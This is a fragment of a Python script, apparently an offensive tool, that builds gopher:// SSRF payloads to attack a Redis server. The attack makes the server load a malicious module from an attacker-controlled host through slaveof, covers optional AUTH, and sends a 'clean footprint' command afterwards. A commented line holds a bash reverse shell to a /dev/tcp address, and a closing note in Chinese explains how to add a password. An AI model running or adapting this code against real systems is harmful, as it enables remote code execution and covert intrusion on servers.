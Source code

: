 ```py
     "quit",
     ]
     # "system.exec bash${IFS}-i${IFS}>&${IFS}/dev/tcp/192.168.8.103/4607${IFS}0>&1",
    payload = ""
    for p in cmd:
        payload += urllib.parse.quote(tranToResp(p))
    return payload


def main():
    # target
    ip = "127.0.0.1"
    port = "6383"
    # server load exp.so
    serverIp = "101.x.x.x"
    serverPort = "21000"
    authPass = "123123"
    payload = GeneratePayload(serverIp, serverPort)
    exitPayload = (urllib.parse.quote(tranToResp("slaveof no one") + tranToResp("quit") ))
    if authPass:
        print("author attack:")
        pd = "gopher://{host}:{port}/_%2a%32%0d%0a%24%34%0d%0a%61%75%74%68%0d%0a%24{l}%0d%0a{p}%0d%0a"
        pd = pd.format(host=ip, port=port, l=str(len(authPass)), p=authPass)
        print(pd + payload)
        print("clean footprint:")
        print(pd + exitPayload)
    else:
        print("no author attack:")
        pd = "gopher://{host}:{port}/_"
        print(pd.format(host=ip, port=port)+payload)
        print("clean footprint:")
        print(pd.format(host=ip, port=port) + exitPayload)

if __name__ == '__main__':
    main()

```

想要有验证的话更改authpass就好
